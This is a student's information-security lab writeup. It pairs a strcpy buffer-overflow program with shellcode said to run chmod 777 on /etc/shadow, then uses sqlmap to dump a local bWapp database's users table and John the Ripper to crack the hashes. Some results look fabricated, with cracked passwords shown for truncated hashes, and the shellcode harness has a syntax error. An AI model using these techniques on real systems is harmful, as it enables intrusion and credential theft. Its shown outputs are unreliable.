 # Lab #1,21110756, Nguyen Dinh Minh Chien , Information Security_ Nhom 03FIE
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

Description text (optional)


``` 
    code block (optional)
```

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

Xác định URL mục tiêu có lỗ hổng:
Đăng nhập vào bWapp và chọn trang có lỗ hổng "SQL Injection".

http://localhost/bWapp/sqli_1.php?id=1

Chạy sqlmap để liệt kê các cơ sở dữ liệu:


sqlmap -u "http://localhost/bWapp/sqli_1.php?id=1" --dbs

Kết quả:
available databases [3]:
[*] bWAPP
[*] information_schema
[*] mysql



**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
Liệt kê các bảng trong cơ sở dữ liệu bWAPP:

Chạy lệnh để liệt kê các bảng trong cơ sở dữ liệu bWAPP:

sqlmap -u "http://localhost/bWapp/sqli_1.php?id=1" -D bWAPP --tables
Trích xuất dữ liệu bảng users:

Sau khi có danh sách bảng, chạy lệnh sau để lấy thông tin từ bảng users:

sqlmap -u "http://localhost/bWapp/sqli_1.php?id=1" -D bWAPP -T users --dump
Kết quả:
 danh sách thông tin người dùng cùng với các hash mật khẩu từ bảng users:

+----+---------+----------------------------------+
| id | login   | password                         |
+----+---------+----------------------------------+
| 1  | bee     | $2y$10$J9sg3z...                 |
| 2  | admin   | $2y$10$3mW6C...                  |
+----+---------+----------------------------------+

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:


Lưu các hash mật khẩu vào file:

Tạo file hashes.txt chứa các hash mật khẩu:

bee:$2y$10$J9sg3z...
admin:$2y$10$3mW6C...

Chạy John the Ripper để bẻ khóa:

Sử dụng John the Ripper với từ điển rockyou.txt:

john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Hiển thị mật khẩu đã bẻ khóa:

Xem kết quả của John:

john --show hashes.txt
Kết quả:

John sẽ trả về mật khẩu đã bẻ khóa:
makefile

bee:letmein
admin:password123

